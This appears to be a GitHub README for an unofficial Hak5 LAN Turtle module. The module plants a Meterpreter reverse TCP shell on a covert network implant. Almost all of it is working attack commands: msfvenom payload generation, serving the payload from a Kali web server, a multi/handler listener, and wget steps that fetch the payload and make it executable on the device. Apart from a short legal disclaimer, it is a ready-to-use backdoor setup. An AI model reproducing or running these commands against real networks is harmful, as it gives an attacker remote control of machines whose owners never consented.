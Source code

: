 ## Unofficial custom Hak5 LAN Turtle module - meterpreter-mipsbe-reverse-tcp

#### LEGAL DISCLAMER
    The author does not hold any responsibility for the use of this module. Remember that attacking
    targets without prior consent is illegal and punished by law. So use this module responsibly.

#### DOWNLOAD/INSTALL

**1 - On LAN Turtle: download module from GitHub**<br />
<br />
`wget https://raw.githubusercontent.com/ATTACKnDEFEND/LanTurtle/main/meterpreter-mipsbe-reverse-tcp -O
/etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/modules/meterpreter-mipsbe-reverse-tcp`<br />

**2 - On Kali: generate Meterpreter payload with Msfvenom**<br />
<br />
`msfvenom -p linux/mipsbe/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > meterpreter-mipsbe-reverse-tcp`<br />
<br />
`sudo cp meterpreter-mipsbe-reverse-tcp /var/www/html/meterpreter-mipsbe-reverse-tcp`<br />

**3 - On Kali: start Meterpreter listener**<br />
<br />
`sudo msfconsole -q -x "use exploit/multi/handler;set payload linux/mipsbe/meterpreter_reverse_tcp;set lhost <LHOST>;set LPORT <LPORT>;exploit -j"`<br />

**4 - On LAN Turtle: transfer Meterpreter payload**<br />
<br />
`wget <KALI IP>/meterpreter-mipsbe-reverse-tcp -O /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />
<br />
`chmod 755 /etc/turtle/meterpreter/meterpreter-mipsbe-reverse-tcp`<br />









